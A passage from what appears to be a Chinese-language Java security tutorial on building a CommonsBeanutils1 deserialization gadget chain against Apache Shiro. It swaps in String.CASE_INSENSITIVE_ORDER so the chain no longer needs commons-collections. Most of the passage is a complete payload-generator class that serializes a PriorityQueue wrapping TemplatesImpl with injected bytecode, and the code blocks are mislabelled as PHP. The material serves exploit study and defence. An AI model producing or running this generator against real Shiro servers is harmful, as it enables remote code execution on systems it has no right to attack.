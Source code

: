 ```php
        }
        return n1 - n2;
    }

    /** Replaces the de-serialized object. */
    private Object readResolve() { return CASE_INSENSITIVE_ORDER; }
}
```

这个`CaseInsensitiveComparator`类是`java.lang.String`类下的一个内部私有类，其实现了`Comparator`和`Serializable`，且位于Java的核心代码中，兼容性强，是一个完美替代品。

我们通过`String.CASE_INSENSITIVE_ORDER`即可拿到上下文中的`CaseInsensitiveComparator`对象，用它来实例化`BeanComparator`：

```php
final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
```

最后，构造出新的CommonsBeanutils1Shiro利用链：

```php
package com.govuln.shiroattack;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```
